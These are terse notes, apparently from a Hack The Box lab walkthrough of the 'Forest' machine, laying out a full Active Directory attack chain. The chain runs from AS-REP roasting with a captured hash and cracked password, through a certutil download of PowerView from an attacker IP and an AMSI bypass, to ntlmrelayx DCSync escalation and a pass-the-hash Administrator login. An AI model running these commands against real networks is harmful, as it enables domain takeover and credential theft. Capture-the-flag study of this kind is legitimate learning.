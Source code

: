 ### re-assembly rpcclient users list
```bash
cat users | cut -d"]" -f1 | tr "[" " " | cut -d " " -f2 > users.txt
```

### Enum users
```bash
./GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -dc-ip $IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```

$krb5asrep$23$svc-alfresco@HTB.LOCAL:7f409a8728db287dc66cebd404de8f76$a9b55fd6d781259c25c6d1d89ae6ec559d8b694ebba4c98700422d988a7165db39525ff0d646894a8cfb9a49d1f5e76c81eda2a3d5f31e9626eb6afdcf4e897bd03687156ea1d23f8f67132ec7d423bf66d1b9ef89a32aaa81fc36f8c9c3dd6426c53936c008834cd43d043063331fa2fa99a02cc35c597c57dc396f2f64d4f2d9d684e4c0e4e93d17e27f8dab24b00c313d373f1215baf78a537e476775f567b815b082f5ea0330bf63e18ff31b912f421707a550d69353c4163936b98edbd9e6badd2ea02e1627078897f403e3c36574c93a1ffb26e2d64d966d1350afff7e1f3821510acc

svc-alfresco@HTB.LOCAL
s3rvice

### Easy box indeed
```bash
❯ crackmapexec winrm $IP -u svc-alfresco -p s3rvice
WINRM       10.129.232.105  5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.232.105  5985   FOREST           [*] http://10.129.232.105:5985/wsman
WINRM       10.129.232.105  5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

### DCSync Privileges needs PowerView.ps1
```bash
certutil -urlcache -f http://10.10.16.9/PowerView.ps1 PowerView.ps1

Import-Module .\PowerView.ps1
```

```bash
net group "Exchange Windows Permissions" svc-alfresco /add /domain
net localgroup "Remote Management Users" svc-alfresco /add /domain

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync # It will fail as defender stop importing the script(PowerView.ps1) here
```

##### menu -> Bypass-4MSI
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> Bypass-4MSI
[+] Success!
```

### Life saver ntlmrelayx.py since none of them working
```bash
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t ldap://$IP --escalate-user svc-alfresco

# It actually runs aclpwn.py aclpwn-20211009-001222.restore 
```
Although, i did run it twice to make it work
https://rootinjail.com/blog/post/htb-forest/

### Root
```bash
impacket-secretsdump -just-dc svc-alfresco:s3rvice@10.129.232.105

[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

evil-winrm -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -i $IP
```